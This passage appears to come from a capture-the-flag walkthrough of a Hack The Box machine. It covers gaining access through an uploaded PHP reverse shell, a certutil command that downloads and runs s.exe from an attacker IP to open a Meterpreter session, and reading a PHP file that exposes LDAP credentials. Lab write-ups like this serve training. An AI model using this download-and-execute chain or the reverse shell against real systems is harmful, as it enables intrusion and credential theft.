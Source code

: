 In the Beginning, You should start python server.

Second, You should start metasploit framework and do the settings and give run. You won’t get meterpreter shell initially.

For that you should upload the payload in the following ie command line option we got in webpage by uploading php reverse shell code and execute.

```
certutil -urlcache -f http://10.10.16.20:8080/s.exe %temp%/s.ex
```

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

You will get an message, Next you should give execute another command to get meterpreter shell in metasploit.

```
start %temp%/s.exe
```

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

By running this you will get access to meterpreter shell.

```
meterpreter > shell
Process 5684 created.
Channel 1 created.
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits r�serv�s.

C:\inetpub\internal\dashboard\uploads>
```

We can find LDAP password and username which may be possibly useful for further enumerations.

```
C:\inetpub\internal\users>type list.php
type list.php
<?php

//LDAP Bind paramters, need to be a normal AD User account.
error_reporting(0);
$ldap_password = 'N1G6G46G@G!j';
$ldap_username = 'webservice@analysis.htb';
$ldap_connection = ldap_connect("analysis.htb");
```
